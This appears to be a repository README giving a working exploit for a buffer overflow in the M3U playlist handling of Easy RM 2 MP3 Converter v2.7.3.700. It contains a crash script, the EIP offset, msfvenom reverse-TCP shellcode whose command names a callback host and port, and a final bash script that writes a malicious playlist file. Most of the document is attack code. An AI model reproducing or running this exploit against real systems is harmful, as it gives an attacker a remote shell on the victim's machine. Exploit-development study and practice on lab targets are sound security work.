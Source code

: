 # Easy RM 2 MP3 Converter

Easy RM 2 MP3 Converter v.2.7.3.700 was found to have a buffer overflow in its
M3U playlist processing logic.  A simple playlist file consisting of nothing
more than a oversized buffer is sufficient to crash the program:
```
#!/bin/bash

FILE="./playlist.m3u"

cat > ${FILE} << EOF
$(python -c "print('A' * 30000)" | tr -d '\n')
EOF
```

Swapping out the Python command for pattern_create, we find that the EIP
overwrite takes place at offset 26011.  

Exploitation is elementary from here: there are no ASLR or SafeSEH protections
in place, our buffer has plenty of space after the EIP address, and there are no
character restrictions.  A simple shell_reverse_tcp payload is sufficient: 
```
#!/usr/bin/env python

# msfvenom -p windows/shell_reverse_tcp -f raw -e x86/fnstenv_mov -o shell lport=4444 lhost=192.168.186.133 exitfunc=none
buf  = ""
buf += "\x6a\x51\x59\xd9\xee\xd9\x74\x24\xf4\x5b\x81\x73"
buf += "\x13\xfa\x9e\x64\x1b\x83\xeb\xfc\xe2\xf4\x06\x76"
buf += "\xe6\x1b\xfa\x9e\x04\x92\x1f\xaf\xa4\x7f\x71\xce"
buf += "\x54\x90\xa8\x92\xef\x49\xee\x15\x16\x33\xf5\x29"
buf += "\x2e\x3d\xcb\x61\xc8\x27\x9b\xe2\x66\x37\xda\x5f"
buf += "\xab\x16\xfb\x59\x86\xe9\xa8\xc9\xef\x49\xea\x15"
buf += "\x2e\x27\x71\xd2\x75\x63\x19\xd6\x65\xca\xab\x15"
buf += "\x3d\x3b\xfb\x4d\xef\x52\xe2\x7d\x5e\x52\x71\xaa"
buf += "\xef\x1a\x2c\xaf\x9b\xb7\x3b\x51\x69\x1a\x3d\xa6"
buf += "\x84\x6e\x0c\x9d\x19\xe3\xc1\xe3\x40\x6e\x1e\xc6"
buf += "\xef\x43\xde\x9f\xb7\x7d\x71\x92\x2f\x90\xa2\x82"
buf += "\x65\xc8\x71\x9a\xef\x1a\x2a\x17\x20\x3f\xde\xc5"
buf += "\x3f\x7a\xa3\xc4\x35\xe4\x1a\xc1\x3b\x41\x71\x8c"
buf += "\x8f\x96\xa7\xf6\x57\x29\xfa\x9e\x0c\x6c\x89\xac"
buf += "\x3b\x4f\x92\xd2\x13\x3d\xfd\x61\xb1\xa3\x6a\x9f"
buf += "\x64\x1b\xd3\x5a\x30\x4b\x92\xb7\xe4\x70\xfa\x61"
buf += "\xb1\x4b\xaa\xce\x34\x5b\xaa\xde\x34\x73\x10\x91"
buf += "\xbb\xfb\x05\x4b\xf3\x71\xff\xf6\xa4\xb3\x40\x1b"
buf += "\x0c\x19\xfa\x8f\x38\x92\x1c\xf4\x74\x4d\xad\xf6"
buf += "\xfd\xbe\x8e\xff\x9b\xce\x7f\x5e\x10\x17\x05\xd0"
buf += "\x6c\x6e\x16\xf6\x94\xae\x58\xc8\x9b\xce\x92\xfd"
buf += "\x09\x7f\xfa\x17\x87\x4c\xad\xc9\x55\xed\x90\x8c"
buf += "\x3d\x4d\x18\x63\x02\xdc\xbe\xba\x58\x1a\xfb\x13"
buf += "\x20\x3f\xea\x58\x64\x5f\xae\xce\x32\x4d\xac\xd8"
buf += "\x32\x55\xac\xc8\x37\x4d\x92\xe7\xa8\x24\x7c\x61"
buf += "\xb1\x92\x1a\xd0\x32\x5d\x05\xae\x0c\x13\x7d\x83"
buf += "\x04\xe4\x2f\x25\xce\xde\x18\xc3\x0c\xbd\x6f\x23"
buf += "\xf9\xe4\x2f\xa2\x62\x67\xf0\x1e\x9f\xfb\x8f\x9b"
buf += "\xdf\x5c\xe9\xec\x0b\x71\xfa\xcd\x9b\xce"
```

Putting it all together, here is our final exploit:
```
#!/bin/bash

FILE="./playlist.m3u"

cat > ${FILE} << EOF
$(python -c "print(('A' * 26011) + '\x32\xc5\x9c\x3d' + '\x90' * 24 + '\x6a\x51\x59\xd9\xee\xd9\x74\x24\xf4\x5b\x81\x73\x13\xfa\x9e\x64\x1b\x83\xeb\xfc\xe2\xf4\x06\x76\xe6\x1b\xfa\x9e\x04\x92\x1f\xaf\xa4\x7f\x71\xce\x54\x90\xa8\x92\xef\x49\xee\x15\x16\x33\xf5\x29\x2e\x3d\xcb\x61\xc8\x27\x9b\xe2\x66\x37\xda\x5f\xab\x16\xfb\x59\x86\xe9\xa8\xc9\xef\x49\xea\x15\x2e\x27\x71\xd2\x75\x63\x19\xd6\x65\xca\xab\x15\x3d\x3b\xfb\x4d\xef\x52\xe2\x7d\x5e\x52\x71\xaa\xef\x1a\x2c\xaf\x9b\xb7\x3b\x51\x69\x1a\x3d\xa6\x84\x6e\x0c\x9d\x19\xe3\xc1\xe3\x40\x6e\x1e\xc6\xef\x43\xde\x9f\xb7\x7d\x71\x92\x2f\x90\xa2\x82\x65\xc8\x71\x9a\xef\x1a\x2a\x17\x20\x3f\xde\xc5\x3f\x7a\xa3\xc4\x35\xe4\x1a\xc1\x3b\x41\x71\x8c\x8f\x96\xa7\xf6\x57\x29\xfa\x9e\x0c\x6c\x89\xac\x3b\x4f\x92\xd2\x13\x3d\xfd\x61\xb1\xa3\x6a\x9f\x64\x1b\xd3\x5a\x30\x4b\x92\xb7\xe4\x70\xfa\x61\xb1\x4b\xaa\xce\x34\x5b\xaa\xde\x34\x73\x10\x91\xbb\xfb\x05\x4b\xf3\x71\xff\xf6\xa4\xb3\x40\x1b\x0c\x19\xfa\x8f\x38\x92\x1c\xf4\x74\x4d\xad\xf6\xfd\xbe\x8e\xff\x9b\xce\x7f\x5e\x10\x17\x05\xd0\x6c\x6e\x16\xf6\x94\xae\x58\xc8\x9b\xce\x92\xfd\x09\x7f\xfa\x17\x87\x4c\xad\xc9\x55\xed\x90\x8c\x3d\x4d\x18\x63\x02\xdc\xbe\xba\x58\x1a\xfb\x13\x20\x3f\xea\x58\x64\x5f\xae\xce\x32\x4d\xac\xd8\x32\x55\xac\xc8\x37\x4d\x92\xe7\xa8\x24\x7c\x61\xb1\x92\x1a\xd0\x32\x5d\x05\xae\x0c\x13\x7d\x83\x04\xe4\x2f\x25\xce\xde\x18\xc3\x0c\xbd\x6f\x23\xf9\xe4\x2f\xa2\x62\x67\xf0\x1e\x9f\xfb\x8f\x9b\xdf\x5c\xe9\xec\x0b\x71\xfa\xcd\x9b\xce')") 
EOF
```
